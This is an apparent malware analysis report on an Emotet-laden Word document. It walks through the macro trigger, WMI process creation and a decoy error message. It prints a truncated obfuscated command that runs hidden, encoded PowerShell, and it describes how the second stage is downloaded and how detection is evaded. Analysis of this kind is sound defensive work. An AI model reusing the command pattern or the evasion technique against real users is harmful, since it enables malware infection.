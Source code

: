 ![Figure 3. Macro triggers upon ‘enable content’ action](Emotet%20Analysis%20Report%2006d9f3f080aa4c5a9155a2bb2a74180d/Untitled%202.png)

Figure 3. Macro triggers upon ‘enable content’ action

![Figure 4. Obfuscated VBA script](Emotet%20Analysis%20Report%2006d9f3f080aa4c5a9155a2bb2a74180d/Untitled%203.png)

Figure 4. Obfuscated VBA script

![Figure 5 . Olevba Risk table](Emotet%20Analysis%20Report%2006d9f3f080aa4c5a9155a2bb2a74180d/Untitled%204.png)

Figure 5 . Olevba Risk table

Opening the doc to analyze the obfuscated script we can immediately approve that this doc is malicious by seeing the notification on the screen which urges us to trigger the malicious script by pressing the ‘Enable Content’ button.

  

![Figure 6. Opening notification](Emotet%20Analysis%20Report%2006d9f3f080aa4c5a9155a2bb2a74180d/Untitled%205.png)

Figure 6. Opening notification

Through the debugging process we reveal variables that assigned the winmgmts:win32_process which will later be used to run the malicious command.

![Figure 7. Obfuscated variables assigned with winmgmts:win32_process](Emotet%20Analysis%20Report%2006d9f3f080aa4c5a9155a2bb2a74180d/Untitled%206.png)

Figure 7. Obfuscated variables assigned with winmgmts:win32_process

Continue with debugging we found the malicious payload which runs "cmd cmd /c m^s^g %username% /v Wo^rd exp^erien^ced an er^ror tryi^ng to op^en th^e fi^le. & p^owe^rs^he^ll^ -w hi^dd^en -^e^nc IABTAFYAIAAgACgAIgBPAGsAIgArACIAQQAiACkAIAAgACgAIABbAHQAeQBQAGUAXQAoACIAewA2AH0AewA0AH0AewAzAH0AewAwAH0AewA1AH”. This command opens up a prompt with the message from our user saying : “Word experienced an error trying to open the file” which is common error in office when using COM objects, and intended in this case to confuse the user to think that's the known issue. The second part of the command “powershell -w hidden -enc” executes the powershell process in the background and runs an encoded base64 string.

One thing to mention is because the nature of win32_process class process creation, the PowerShell process is created under the windows startup process and not directly under the WINWORD.exe process which make it harder to detect and gather the full base 64 string.

![Figure 8. The malicious payload revealed](Emotet%20Analysis%20Report%2006d9f3f080aa4c5a9155a2bb2a74180d/Untitled%207.png)

Figure 8. The malicious payload revealed

![Figure 9. PowerShell process runs under the wininit process with encoded base64 string](Emotet%20Analysis%20Report%2006d9f3f080aa4c5a9155a2bb2a74180d/Untitled%208.png)

Figure 9. PowerShell process runs under the wininit process with encoded base64 string

Decoding the base64 string we get yet another obfuscated and mess PowerShell script

![Figure 10. Obfuscated PowerShell script](Emotet%20Analysis%20Report%2006d9f3f080aa4c5a9155a2bb2a74180d/Untitled%209.png)

Figure 10. Obfuscated PowerShell script

After deobfuscating this code we reveal the intention of the whole malicious doc which is to serve as a downloader for the second stage of the malware, which is a dll that the PowerShell script tries to download from each of the urls in the code. 

